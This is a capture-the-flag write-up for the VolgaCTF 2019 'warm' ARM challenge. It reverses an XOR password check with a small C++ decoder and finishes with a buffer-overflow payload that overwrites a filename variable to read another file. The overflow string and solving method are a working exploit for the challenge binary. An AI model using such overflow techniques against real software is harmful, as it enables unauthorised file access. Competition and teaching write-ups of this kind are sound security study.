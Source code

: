 # [100] warm

## problem

How fast can you sove it? `nc warm.q.2019.volgactf.ru 443`
[warm](https://q.2019.volgactf.ru/files/34d919f5c70d2eafcb87350020716f7c/warm)

## info

```
$ file ./warm
./warm: ELF 32-bit LSB pie executable ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```

```
$ checksec ./warm
[*] '/CTF/volgaCTF_2019_qualifier/pwn/warm/warm'
    Arch:     arm-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## solution

When I get a binary, first thing to do is dragging it into a disassembler and start to figure out what this program do. I use [Ghidra](https://ghidra-sre.org/) this time. (I don't know how to get IDA pro hex rays work with Arm arch QQ)

![](https://i.imgur.com/4HctMzm.png)

`getFileName()` will use either get from a environment variable `FLAG_FILE` or use the default one `flag` as the `file_name`

![](https://i.imgur.com/NkehNjs.png)

If the return of `checkPassword(input)` equals 0, it prints the content of `file_name`. And we need to figure out the password.

![](https://i.imgur.com/oveVuEX.png)

Look line 13 ~ 22, It looks like a easy XOR cipher. So after reformatting and stripping some unnecessary code, we get the following codes.

```
*pass == 'v'
(pass[1] ^ *pass) == 0x4e
(pass[2] ^ pass[1]) == 0x1e
(pass[3] ^ pass[2]) == 0x15
(pass[4] ^ pass[3]) == 0x5e
(pass[5] ^ pass[4]) == 0x1c
(pass[6] ^ pass[5]) == 0x21
(pass[7] ^ pass[6]) == 1
(pass[8] ^ pass[7]) == 0x34
(pass[9] ^ pass[8]) == 7
(pass[10] ^ pass[9]) == 0x35
(pass[0xb] ^ pass[10]) == 0x11
(pass[0xc] ^ pass[0xb]) == 0x37
(pass[0xd] ^ pass[0xc]) == 0x3c
(pass[0xe] ^ pass[0xd]) == 0x72
(pass[0xf] ^ pass[0xe]) == 0x47
```

We can easily break this XOR cipher by move the right term of the XOR part to right of the `==` sign and make all `==` to `=`.

```c++
#include <iostream>

int main(int argc, char *argv[])
{
    char pass[16];

    *pass = 'v';
    pass[1] = 0x4e ^ pass[0];
    pass[2] = 0x1e ^ pass[1];
    pass[3] = 0x15 ^ pass[2];
    pass[4] = 0x5e ^ pass[3];
    pass[5] = 0x1c ^ pass[4];
    pass[6] = 0x21 ^ pass[5];
    pass[7] = 1 ^ pass[6];
    pass[8] = 0x34 ^ pass[7];
    pass[9] = 7 ^ pass[8];
    pass[10] = 0x35 ^ pass[9];
    pass[0xb] = 0x11 ^ pass[10];
    pass[0xc] = 0x37 ^ pass[0xb];
    pass[0xd] = 0x3c ^ pass[0xc];
    pass[0xe] = 0x72 ^ pass[0xd];
    pass[0xf] = 0x47 ^ pass[0xe];
    
    for(int i = 0; i < 16; i++)
        putchar(pass[i]);
    
    return 0;
}
```

And the output is:
```
v8&3mqPQebWFqM?x
```

However, it didn't give me the flag when I send the password. So I thought maybe the flag is in other file?
```
nc warm.q.2019.volgactf.ru 443
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```

But how do we control the file of reading?

![](https://i.imgur.com/TMKSxmm.png)

The input didn't get length check. So if we input long enough, it writes memory of `file_name`. And we succeeded to control the file to read.
The final payload:
```
v8&3mqPQebWFqM?xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAsacred
```

> The filename of the real flag is by guessing.
